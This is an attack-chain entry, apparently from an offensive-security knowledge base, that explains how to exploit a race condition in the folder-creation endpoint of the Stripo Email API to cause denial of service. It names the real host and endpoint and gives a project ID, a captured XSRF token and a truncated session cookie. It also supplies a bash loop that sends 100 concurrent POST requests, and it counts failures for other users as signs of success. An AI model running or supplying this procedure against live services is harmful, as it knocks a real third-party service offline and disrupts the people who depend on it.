

---
tags:
  - race-condition
  - dos
  - api
  - web
type: attack_chain
tools: []
tactics:
  - '[[Impact]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Race-Condition-in-Folder-Creation]]'
step_count: 3
techniques:
  - '[[Endpoint Denial of Service]]'
updated_at: '2025-12-14T17:24:18.741Z'
description: >-
  A multi-step attack exploiting a race condition in the folder creation
  endpoint of the Stripo Email API, leading to denial-of-service by overwhelming
  the system with rapid concurrent requests.
skill_level: intermediate
impact_level: high
id: 4f747520-a779-4441-8ebd-4345286bf064
validated: true
mitre_tactics:
  - '[[Impact]]'
mitre_techniques:
  - '[[Endpoint Denial of Service]]'
---
# Race Condition DoS via Concurrent Folder Creation in Stripo Email API

Multi-stage attack chain demonstrating a complete attack workflow exploiting a race condition in the Stripo Email API's folder creation endpoint to cause denial-of-service.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform
- Java-based API services
- Access to /cabinet/stripeapi/v1/projects/{project_id}/emails/folders endpoint
- Network access to my.stripo.email

### Initial Access Requirements

- Valid authenticated session with JWT token and CSRF token
- Project ID (e.g., 298427)
- User credentials for the target application

## Detailed Attack Procedures

### Step 1: Setup Context - Create New Email

procedure: [[procedures/Exploit-Race-Condition-in-Folder-Creation]]

**Objective**: Establish context by creating a new email in the project to enable folder operations.

**Instructions**: Use the web interface or API to create a new email within the target project. This step sets up the necessary environment for folder creation without triggering the vulnerability yet.

**Expected Output**: Confirmation of new email creation, providing a base for subsequent folder actions.

**Success Indicators**:
- New email appears in the project dashboard
- API response indicates successful creation (status 200 or 201)

### Step 2: Initial Single Folder Creation

procedure: [[procedures/Exploit-Race-Condition-in-Folder-Creation]]

**Objective**: Test the folder creation endpoint with a single request to verify access and observe normal behavior.

**Instructions**: Send a POST request to the folder creation endpoint using [[commands/post-create-folder]] with a sample payload. Include authentication headers and cookies as captured from a legitimate session.

```bash
curl -X POST https://my.stripo.email/cabinet/stripeapi/v1/projects/298427/emails/folders \
  -H "Content-Type: application/json;charset=UTF-8" \
  -H "X-XSRF-TOKEN: 704b458b-c5bd-4ff1-9610-da193b987cb7" \
  -H "Cookie: token=eyJhbGciOiJSUzUxMiJ9..." \
  -d '{"name":"Nova Pasta 2"}'
```

**Expected Output**: JSON response confirming folder creation (e.g., {"id":123, "name":"Nova Pasta 2"}).

**Success Indicators**:
- Folder listed in the project
- No rate-limit headers (x-rate-limit-*) present in response, indicating vulnerability

### Step 3: Exploit Race Condition with Rapid Requests

procedure: [[procedures/Exploit-Race-Condition-in-Folder-Creation]]

**Objective**: Overwhelm the system by sending multiple concurrent POST requests to trigger the race condition and cause resource exhaustion leading to DoS.

**Instructions**: Repeat the folder creation request rapidly using tools like Apache Bench (ab) or a script to send 100+ concurrent requests. Monitor for system unresponsiveness.

First, prepare the request as in Step 2, then execute concurrent instances:

```bash
# Example using a loop or tool for concurrency
for i in {1..100}; do
  curl -X POST https://my.stripo.email/cabinet/stripeapi/v1/projects/298427/emails/folders \
    -H "Content-Type: application/json;charset=UTF-8" \
    -H "X-XSRF-TOKEN: 704b458b-c5bd-4ff1-9610-da193b987cb7" \
    -H "Cookie: token=eyJhbGciOiJSUzUxMiJ9..." \
    -d '{"name":"Nova Pasta '$i'"}' &
done
wait
```

**Expected Output**: Initial successes followed by errors, timeouts, or unavailability of the API endpoint to other users.

**Success Indicators**:
- API becomes unresponsive or returns 5xx errors
- Excessive resource usage observed (e.g., high CPU/memory on server side)
- Other legitimate requests to the API fail

## Attack Chain Summary

### Key Achievements

1. Successful context setup without detection
2. Verification of vulnerable endpoint lacking rate limits
3. Induction of DoS through race condition exploitation, impacting service availability

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Endpoint Denial of Service]]

### MITRE ATT&CK Tactics

- [[Impact]]

---
*Last updated: 2023-10-01T00:00:00Z*
